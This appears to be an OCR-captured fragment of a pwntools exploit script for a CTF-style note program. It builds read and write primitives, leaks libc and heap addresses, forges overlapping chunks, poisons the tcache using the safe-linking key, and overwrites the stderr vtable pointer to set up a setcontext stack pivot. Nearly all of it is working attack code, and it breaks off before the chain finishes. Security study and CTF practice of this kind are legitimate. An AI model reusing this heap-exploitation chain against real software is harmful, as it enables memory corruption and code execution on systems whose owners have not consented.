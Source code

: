 def read(index,proc=io):
    proc.sendline(b"3")
    proc.sendline(str(index))
    proc.recvuntil("NOTE: ")
    leak = (proc.recvuntil(b"<"))[:6]
    return int.from_bytes(leak, byteorder='little')

def write(index,offset,value,proc=io):
    proc.sendline(b"4")
    proc.sendline(str(index))
    if value!="no":proc.sendline(str(offset))
    if offset!="no":proc.sendline(value.to_bytes(1,'little'))

#########-LEAKING-AND-CALCULATING-ALL-THE-NECESSARY-MEMORY-ADDRESS-##################
#Leak libc
libc = read(-4) - 2201216 
#stdout address
stderr = libc + 2201216
#vtable hijack
vtable = libc + 2203648
#wide_data 
wide_data = stderr + 160
#setcontext for stack_pivot
setcontext = libc + 358637
#getkeyserv handle for $rdx control from $rdi
handle = libc + 1481888
#####################################################################################

###########-Creating Overlapping chunks at index 3-##################################
dummy1_chunk = create(15,"dummy")
dummy2_chunk = create(15,"dummy")
test3_chunk = create(15,"test")
overlapper4_chunk = create(15,"Overlapper")
victim5_chunk = create(15,"Victim")
write(2,24,0xf1)
#####################################################################################

#######################-USED-FOR-TCACHE-POISONING-###################################
lastpiece6 = create(15,"lastpiece")
lastpiece7 = create(15,"lastpiece_1")
lastpiece8 = create(15,"lastpiece_2")
#####################################################################################

#####################-LEAKING-HEAP-POINTER-&-TCACHE-KEY##############################
heap_pointer = read(0)
key = heap_pointer >> 12 
#####################################################################################

################-OBERWRITING-STDERR-VTABLE-POINTER-##################################
delete(3)
delete(5)
delete(4)
fake_widedata_entry = heap_pointer + 96
#stderr vtable overwrite
overwrite = b"a"*24 + p64(0x21) + p64((key ^ (stderr + 208)))
second_chunk = create(0xe8,overwrite)
victim5_chunk = create(15,"Victim")
overwrite = p64(0) + p64(vtable)
stdout_pointer6 = create(16,overwrite)
#####################################################################################
